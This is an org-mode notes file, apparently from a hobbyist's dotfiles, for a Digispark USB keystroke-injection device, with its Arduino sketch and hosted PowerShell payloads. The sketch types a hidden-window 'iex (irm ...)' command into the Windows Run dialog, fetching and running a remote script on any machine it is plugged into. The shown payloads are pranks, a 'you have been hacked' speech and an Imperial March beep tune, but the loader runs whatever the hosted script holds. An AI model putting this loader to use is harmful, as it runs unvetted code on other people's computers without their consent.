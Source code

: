 #+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate the the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 120
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")
#+end_src






** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
